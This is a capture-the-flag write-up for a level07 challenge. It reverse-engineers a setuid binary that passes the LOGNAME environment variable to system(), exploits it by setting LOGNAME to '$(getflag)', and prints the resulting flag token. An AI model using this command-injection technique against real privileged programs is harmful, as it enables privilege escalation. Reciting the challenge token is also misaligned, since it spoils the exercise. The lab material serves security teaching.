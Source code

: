 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2007(level07) gid=2007(level07) groups=2007(level07),100(users)
```

This shows that we are operating as the user `level07`.

---
## Step 2: Searching for Files

```bash
$ ls -la
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07


$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped

$ ./level07
level07
```
The level06 binary is a setuid ELF executable, meaning it executes with the flag07 user's permissions.

Let's transfer it to our local machine for reverse engineering:
```bash
$ scp -P 4242 level07@machine_ip:/home/level07/level07 .
```
---
## Step 3: Reverse Engineering the Binary with Ghidra

The C pseudo code generated by Ghidra is as follows:
```c
void main(void)

{
  char *pcVar1;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  system(local_1c);
  return;
}
```
### Explanation:
The vulnerability lies in the fact that the program uses the system() function to execute a command containing user-controlled input (the `LOGNAME` environment variable) without proper sanitization. This allows an attacker to inject arbitrary commands by manipulating the `LOGNAME` environment variable.

---
## Step 4: Exploiting the Binary to Get a flag
To exploit this, we can change environement variable, to change `LOGNAME` by `$(getflag)`

```bash
export LOGNAME=\$\(getflag\)
```

```bash
$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
---

And there you have it, the token is `fiumuikeil55xe9cu4dood66h`.

